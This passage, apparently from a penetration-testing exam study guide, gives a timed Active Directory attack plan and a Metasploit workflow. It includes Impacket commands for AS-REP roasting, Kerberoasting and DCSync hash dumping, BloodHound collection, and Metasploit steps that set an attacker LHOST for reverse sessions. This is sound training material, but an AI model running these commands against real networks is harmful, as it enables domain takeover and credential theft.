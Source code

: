 ```bash
python3 GetNPUsers.py <domain>/ -usersfile users.txt
# Test for default credentials
```

#### Hours 2-4: Lateral Movement and Escalation  
```bash
# Kerberoasting (30 minutes)
python3 GetUserSPNs.py <domain>/<user>:<pass> -request

# BloodHound collection (30 minutes)
bloodhound-python -u <user> -p <pass> -d <domain> -dc <dc-ip> -c all

# Lateral movement (60 minutes)
# Pass-the-hash attempts
# Service account exploitation
# Credential dumping from compromised machines
```

#### Hours 4-6: Domain Controller Compromise
```bash
# Advanced attacks (60 minutes)
# DCSync attempts
python3 secretsdump.py <domain>/<user>:<pass>@<dc-ip>
# Golden/Silver ticket creation
# Alternative escalation paths from BloodHound

# Cleanup and verification (60 minutes)
# Verify all flags collected
# Document attack path clearly
# Prepare for report writing
```

### Metasploit Usage Strategy

#### When to Use Metasploit:
1. **Hardest standalone machine** - Use on the most challenging box
2. **Time pressure** - When running out of time and need quick wins  
3. **Complex exploit** - When manual exploitation would take too long
4. **Buffer overflow** - If present, MSF is often faster than manual

#### Metasploit Best Practices:
```bash
# Efficient MSF workflow
msfconsole -r startup.rc  # Pre-load common modules

# Quick exploit search and execution
search <service-name>
info <exploit-path>
use <exploit-path>
show options
set RHOSTS <target>
set LHOST <attacker-ip>
exploit

# Post-exploitation efficiency
background  
sessions -l
sessions -i <session-id>
run post/multi/recon/local_exploit_suggester
```
